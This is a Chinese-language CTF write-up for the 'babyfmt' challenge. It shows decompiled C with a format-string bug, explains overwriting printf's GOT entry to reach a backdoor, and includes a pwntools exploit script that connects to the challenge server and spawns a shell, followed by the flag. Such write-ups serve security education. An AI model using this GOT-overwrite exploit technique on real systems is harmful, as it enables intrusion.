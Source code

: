 # babyfmt

菜狗终于记得有got表这回事了。

-   Arch:     i386-32-little
    <br>RELRO:    Partial RELRO
    <Br>Stack:    No canary found
    <Br>NX:       NX enabled
    <BR>PIE:      No PIE (0x8048000)

就开了个nx，还不重要。这次的Partial RELRO我不会再忘了，看看main。

```c
void main(undefined4 param_1,undefined4 param_2)

{
  char *__s;
  int in_GS_OFFSET;
  char local_114 [256];
  undefined4 local_14;
  undefined *puStack12;
  
  puStack12 = (undefined *)&param_1;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  __s = (char *)malloc(0x10);
  sprintf(__s,"%p",backdoor);
  printf("gift: %p\n",__s);
  do {
    memset(local_114,0,256);
    read(0,local_114,255);
    printf(local_114);
  } while( true );
}
```

粗略分析程序，main函数内部有无限循环的格式化字符串漏洞。同时还给了个后门函数backdoor，直接getshell。我唯一看不懂的地方是这个gift是干啥用的，都无pie了我直接在程序里记录backdoor的地址不就好了吗？这还用了malloc，相当于给了一个指向指向backdoor指针的指针，不是很有记录的必要。Partial RELRO代表got表可写，你看那个printf是不是和system很像，直接把printf的got表改成system，这样调用的就是system了。[ctf wiki](https://ctf-wiki.org/en/pwn/linux/user-mode/fmtstr/fmtstr-example/#hijack-got)有一模一样的题，还更难。直接用pwntools自带的fmtstr_payload就行了。

```python
from pwn import *
p=remote("43.136.137.17",3913)
payload=fmtstr_payload(11,{0x0804a010:0x0804859b})
p.sendafter("\n",payload)
p.send('/bin/sh')
p.interactive()
```

- ### Flag
  > moectf{h4ck3d_by_form4t_str1ng}
